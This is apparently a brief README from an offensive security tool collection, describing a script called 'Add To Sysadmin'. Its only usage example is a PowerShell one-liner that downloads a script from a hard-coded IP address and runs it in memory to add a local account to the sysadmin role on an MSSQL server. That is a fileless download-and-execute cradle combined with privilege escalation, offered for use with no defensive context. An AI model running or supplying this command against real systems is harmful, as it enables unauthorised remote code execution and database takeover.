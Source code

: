 # Name
Add To Sysadmin

## Usage
```
# Will add local admin bill to sysadmin for MSSQL server
iex (new-object net.webclient).downloadstring('http://192.168.45.214/add_to_sysadmin.ps1')
```

